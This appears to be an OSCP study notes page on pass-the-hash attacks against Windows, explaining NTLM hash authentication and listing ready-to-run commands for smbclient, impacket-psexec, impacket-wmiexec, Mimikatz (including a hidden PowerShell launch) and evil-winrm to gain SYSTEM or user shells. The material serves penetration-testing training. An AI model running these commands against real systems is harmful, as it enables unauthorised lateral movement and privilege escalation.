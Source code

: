 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/7-password-attacks/6-pass-the-hash/"}
---
```


- PtH is a techique where a valid combination of username and a NTLM hash will authenticate a user. This is without a plaintext password.
- It is possible because NTLM/LM hashes are not salted and remain static between sessions.
- They can even be used to authenticate to another machine with the same user and password.
- Note: The targeted user most often needs to be Administrator, or be configured in a certain way to obtain successful code execution. This is a thing since Windows Vista.
- PtH can be performed against protocols that support authentication with NTLM hashes, such as: SMB, RDP, WinRM.
- Tools which can perform PtH include: smbclient, CrackMapExec, psexec.py (Impacket), and Mimikatz.

------------

### PtH Attack with SMBClient:
```bash
smbclient \\\\192.168.X.X\\secrets -U Administrator --pw-nt-hash <hash>
```

------------

### PtH NT_AUTHORITY Shell with PSExec:
- PSExec searches for a writable share and uploads an executable to it. The executable then registers as a Windows service and starts running, resulting in a shell always as SYSTEM.
- If not command is specified to be run in the end a cmd-shell will spawn instead.
- Hash arguments are read as LMHash:NTHash. If only one of them is used fill the other with 32 0's.
- Example which will spawn a shell from a NTLM hash:
```powershell
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.X.X
```

----------
### PtH User Shell with WMIExec:
- Obtains a shell as the user used for authentication and not SYSTEM.
- Example:
```powershell
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.X.X
```

------------
### PtH with Mimikatz:
```
mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:”powershell -w hidden”

Alt.
mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:…
.\PsExec.exe \\172.23.1.100 cmd.exe
```

-------------
### PtH with Evil-WinRM:
``` bash
evil-winrm -i 192.168.X.X -u <user> -H <ntlm-hash>
```